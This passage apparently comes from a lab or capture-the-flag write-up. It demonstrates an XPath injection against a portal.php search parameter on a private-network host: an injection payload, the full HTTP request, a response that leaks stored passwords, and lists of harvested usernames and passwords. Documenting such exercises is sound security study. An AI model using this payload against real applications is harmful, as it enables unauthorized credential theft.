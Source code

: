 ### Exploitation

Send the payload `')]+|+//password%00` to extract passwords from the application.

#### Request

```text
GET /portal.php?work=car')]+|+//password%00&action=search HTTP/1.1
Host: 192.168.196.202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.196.202/portal.php?work=car&action=search
Cookie: PHPSESSID=e46fk6dmcbj9r807ojgflhej0e
Upgrade-Insecure-Requests: 1
```

#### Response

```html
<table align="center" height="40" background-color="#92f0ff">
<tr height="40" bgcolor="#17ffb7" align="center">
<td width="200"><b>Search users by services: </b></td>
</tr>
XML Error; No car')]/password | a[contains (a,' entity found
<tr height="40" bgcolor="#c8dbde" align="center">
<td>1</td>
<td width="200"><b>Iamrockinginmyroom1212</b></td>
</tr>         
<tr height="40" bgcolor="#c8dbde" align="center">
<td>2</td>
<td width="200"><b>iamarabbitholeand7875</b></td>
</tr>         
<tr height="40" bgcolor="#c8dbde" align="center">
<td>3</td>
<td width="200"><b>johnloveseverontr8932</b></td>
</tr>         
</table> 
```

### Users

```text
alice
bob
john
```

### Passwords

```text
Iamrockinginmyroom1212
iamarabbitholeand7875
johnloveseverontr8932
lokieismyfav!@#12
alreadydead$%^234
lasagama90809!@
```
